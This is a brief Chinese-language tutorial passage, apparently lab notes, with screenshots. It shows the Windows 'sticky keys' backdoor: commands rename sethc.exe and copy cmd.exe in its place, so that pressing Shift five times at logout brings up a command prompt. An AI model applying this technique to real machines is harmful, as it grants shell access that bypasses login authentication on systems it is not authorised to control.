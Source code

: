 ![Alt text](image-94.png)   
将原来的 `sethc.exe` 重命名为 `sethc1.exe`, 然后 `copy` 终端程序为 `sethc.exe`。   
```bash
 move sethc.exe sethc1.exe
 copy cmd.exe sethc.exe
```   
![Alt text](image-95.png)   
注销登录。   
![Alt text](image-96.png)    
按5次`shift`唤起替换后的`cmd`。   